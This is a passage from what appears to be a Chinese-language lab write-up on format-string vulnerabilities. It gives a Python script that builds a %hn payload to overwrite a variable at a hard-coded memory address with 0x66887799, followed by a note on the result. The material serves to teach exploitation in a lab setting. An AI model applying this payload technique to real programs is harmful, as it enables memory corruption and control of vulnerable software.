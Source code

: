 ## 3.3 修改var的值为0x66887799

先修改高字节两位为6688，再修改低字节两位为7799。

task1_1.py

```python
#!/usr/bin/python3
# Change Program’s Data in the Memory

# target address
addr = 0xffffcf68
# 1: modify the high 2 bytes
payload = (addr+2).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
# 2: modify the low 2 bytes
payload += (addr).to_bytes(4,byteorder='little')
# new value
new_val = 0x66887799

# 3: calculate the length of the first write
# 0x6688 - 4 * 3 - 5*8 = 26196
len1 = 0x6688 - 4 * 3 - 5*8
# 4: calculate the length of the second write
# 0x7799 - 0x6688 = 4369
len2 = 0x7799 - 0x6688

# 5+1 = 6
# 7th is the address of the high 2 bytes
# 9th is the address of the low 2 bytes
payload += ("%.8x"*5 + "%.{}x".format(len1) + "%hn" + "%.{}x".format(len2) + "%hn").encode('latin-1')

with open('input', 'wb') as f:
  f.write(payload)
```

Data at target address被修改

运行结果：

![image-20230519190435176](assets/image-20230519190435176.png)
